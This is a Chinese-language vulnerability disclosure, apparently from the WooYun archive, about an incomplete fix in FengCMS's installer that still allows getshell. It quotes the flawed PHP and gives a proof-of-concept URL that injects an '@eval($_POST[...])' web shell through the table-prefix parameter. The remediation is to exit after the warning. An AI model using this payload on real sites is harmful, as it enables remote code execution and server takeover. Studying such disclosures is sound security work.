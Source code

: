 ## 1.4 WooYun-2014-76648：FengCMS 修復不當導致getshell

### 詳細說明
之前提交過一次跟http://**.**.**.**/bugs/wooyun-2014-067508
漏洞重複了。現在重新看一下。發現修復的有問題，而且install目錄默認是不會自動刪除的，依然可以getshell！

```php
header("Content-type:text/html;charset=utf-8");

define("TPL_INCLUDE",1);

// 定義當前路徑

define('ABS_PATH',dirname(__FILE__));

define('ROOT_PATH',dirname(ABS_PATH));

if(!$_GET['step'])$_GET['step']=1;

$config_file=ROOT_PATH.'/config.php';

$install_file=ABS_PATH.'/install.sql';

//這裡是修改添加的程式碼，由於是輸出javascript,所以可以無視

if(file_exists(ROOT_PATH.'/upload/INSTALL')){

  echo '<script type="text/javascript">alert("系統已安裝，如需要重新安裝，請手工刪除upload目錄下的INSTALL文件！");</script>';

  echo '<meta http-equiv="refresh" content="0;url=/">';

}
```

所以直接進行setp = 4 的步驟，其中只有DB_PREFIX字段不影響，可以用來getshell。

### 漏洞證明

直接訪問URL：

```php
.../install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4
```
![1.4-1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1/1.4/1.4-1.png)

![1.4-2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1/1.4/1.4-2.png)

![1.4-3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1/1.4/1.4-3.png)




### 修復方案
echo 完了

exit()一下